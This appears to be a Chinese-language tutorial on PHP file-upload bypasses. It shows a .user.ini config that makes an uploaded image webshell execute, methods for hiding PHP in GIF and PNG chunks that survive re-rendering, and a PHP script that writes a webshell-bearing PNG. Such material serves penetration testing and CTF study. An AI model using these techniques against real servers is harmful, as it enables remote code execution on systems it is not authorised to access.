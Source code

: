

##### .user.ini文件

`.user.ini`中两个中的配置`auto_prepend_file`和`auto_append_file`。这两个配置的意思就是：我们指定一个文件（如`1.jpg`），那么该文件就会被包含在要执行的`php`文件中（如`index.php`），相当于在`index.php`中插入一句：`require(./1.jpg)`。这两个设置的区别只是在于`auto_prepend_file`是在文件前插入，`auto_append_file`在文件最后插入。

利用`.user.ini`的前提是服务器开启了`CGI`或者`FastCGI`，并且上传文件的存储路径下有`index.php`可执行文件，`php`版本必须要在5以上

该`.user.ini`文件意思是无论访问当前目录下哪个 `php` 文件都会自动去包含 `1.jpg` 这个文件，得我们上传的图片格式的`webshell`也能够被解析，以此成功利用漏洞拿到`shell`权限

```ini
auto_prepend_file=1.jpg
auto_append_file=1.jpg
```



##### 二次渲染

一些文件上传点，图片在上传之后，会对其进行二次处理（格式、尺寸要求等），服务器会把里面的内容进行替换更新，然后再保存，从而导致我们在传图片马时里面的内容被破坏，导致木马程序无法正常执行

```
参考文章：https://xz.aliyun.com/news/2337#toc-3
```

`gif`：先将普通的`gif`图片上传，会被渲染，渲染之后再下载下来，与原`git`图片对比，找到渲染前后没有变化的位置，然后在这些位置插入`php`一句话，再上传即可。

`png`：索引类型图，由多个数据块组成，相对复杂，可以尝试将木马写入 `PLTE` 数据块或写入`IDAT`数据块

写入 `PLTE` 数据块：

`php`底层在对`PLTE`数据块验证的时候,主要进行了`CRC`校验.所以可以在`chunk data`域插入`php`代码,然后重新计算相应的`crc`值并修改即可；这种方式只针对索引彩色图像的`png`图片才有效,在选取`png`图片时可根据`IHDR`数据块的`color type`辨别.`03`为索引彩色图像.

写入`IDAT`数据块：

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>
```
